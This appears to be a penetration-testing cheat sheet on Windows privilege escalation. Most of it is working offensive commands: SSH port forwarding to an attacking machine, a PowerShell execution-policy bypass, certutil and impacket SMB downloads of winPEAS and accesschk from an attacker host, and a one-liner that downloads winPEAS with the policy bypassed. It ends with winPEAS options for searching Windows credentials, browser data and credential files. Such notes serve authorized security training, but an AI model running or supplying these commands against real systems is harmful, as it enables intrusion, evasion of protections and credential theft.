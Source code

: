 Port forward port 80 on target machine to remote attacking machine's port 80 via ssh
```sh
sudo ssh -L 80:192.168.49.131:80 ariah@192.168.131.99
```
## Privilege Escalation

Bypass PowerScript **E**xecution **P**ermission protections
```powershell
powershell -ep bypass
```
### File transfers
https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil

#### Via certutil
```powershell
certutil.exe -urlcache -f http://192.168.x.x/winPEASx64.exe c:/tools/winPEASx64.exe
```

accesschk
```powershell
certutil.exe -urlcache -f http://192.168.x.x/accesschk64.exe c:/tools/accesschk64.exe
```

#### Via Samba shares

Serving the file on kali
```sh
sudo impacket-smbserver TMP /var/www/html/
```

Receiving the file on Windows
```powershell
copy \\192.168.x.x\TMP\winPEASx64.exe .   
```

### Misconfigurations

Download and Run WinPEAS from the releases page and enjoy the show (takes some time)
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
https://github.com/carlospolop/PEASS-ng/releases

One liner web download 
```powershell
powershell -ep bypass -Command "Invoke-WebRequest -Uri 'https://github.com/carlospolop/PEASS-ng/releases/download/20231105-d387d97f/winPEASx64.exe' -OutFile 'winPEASx64.exe'"
```

WinPEAS options for speed
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search generic files that can contains credentials
        fileanalysis         Search specific files that can contains credentials and for regexes inside files
        eventsinfo           Display interesting events information
